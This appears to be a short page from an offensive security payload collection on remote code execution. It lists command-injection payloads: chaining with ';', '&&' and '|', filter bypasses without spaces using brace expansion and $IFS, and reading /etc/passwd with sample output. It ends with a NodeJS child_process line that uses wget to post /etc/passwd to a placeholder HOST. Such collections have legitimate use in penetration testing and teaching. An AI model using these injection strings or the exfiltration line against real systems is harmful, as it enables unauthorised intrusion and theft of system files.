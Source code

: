 # Remote Code Execution
Remote code execution is a security vulnerability that allows an attacker to execute codes from a remote server.
	

## Exploits
Normal code execution
```
cat /etc/passwd 
root:x:0:0:root:/root:/bin/bash 
daemon:x:1:1:daemon:/usr/sbin:/bin/sh 
bin:x:2:2:bin:/bin:/bin/sh 
sys:x:3:3:sys:/dev:/bin/sh
```

Code execution by chaining commands
```
original_cmd_by_server; ls
original_cmd_by_server && ls
original_cmd_by_server | ls
```

Code execution without space
```
swissky@crashlab▸ ~ ▸ $ {cat,/etc/passwd}
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin

swissky@crashlab▸ ~ ▸ $ cat$IFS/etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin

swissky@crashlab▸ ~ ▸ $ echo${IFS}"RCE"${IFS}&&cat${IFS}/etc/passwd
RCE
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
```

NodeJS Code execution
```
require('child_process').exec('wget+--post-data+"x=$(cat+/etc/passwd)"+HOST')
```

## Thanks to
* 